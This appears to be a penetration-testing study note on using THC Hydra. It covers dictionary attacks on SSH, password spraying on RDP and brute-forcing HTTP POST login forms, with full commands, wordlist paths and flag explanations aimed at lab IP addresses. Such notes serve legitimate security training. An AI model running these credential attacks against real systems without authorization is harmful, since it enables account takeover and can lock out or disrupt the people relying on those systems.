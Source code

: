 ```yaml
---
tags: hydra
---
```

> Note that dictionary attacks generate a lot of noise, including logs, events and traffic. The huge amount of traffic could bring down a network, or user accounts could get locked out in vital systems. Before blindly launching tools, we must perform thorough enumeration to identify and avoid these risks. 

## SSH and RDP

Tool: [THC Hydra](https://github.com/vanhauser-thc/thc-hydra)
Wordlist: rockyou.txt (located in `/usr/share/wordlists/`)

### Dictionary attack on SSH

Confirm that the target is running SSH service on the target port:
`sudo nmap -sV -p 2222 192.168.50.201`

Find username from information gathering process, or use built-in accounts like *root* (Linux) or *Administrator* (Windows).

Dictionary attack:
`sudo hydra -l george -P /usr/share/wordlists/rockyou/rockyou.txt -s 2222 ssh://192.168.50.201`
- `-l`: specify single username (`-L` to use list of usernames)
- `-P`: specify password list (`-p` to use single password)
- `-s`: specify port

### Password spraying on RDP

Wordlist of usernames (over 8000): `/usr/share/wordlists/dirb/others/names.txt`

Password spraying:
`sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202`

Can try to use `-e nsr` option
- `-e nsr`: try "n" null password, "s" login as pass and/or "r" reversed login

## HTTP Post Login Form

Can use dictionary attack on known default usernames (e.g. found from the application's documentation).

1. Use Burp to intercept a login attempt and grab the request body in the POST data.
   ![[Pasted image 20240729150416.png|650]]
2. Identify a failed login attempt. Provide the text that appears as a failed login identifier to Hydra. 
3. `sudo hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"`
	- `http-post-form "[location of login form]:[request body]:[failed login identifier]"`
	- To avoid false positives, avoid including words like "username" and "password" in the failed login identifier.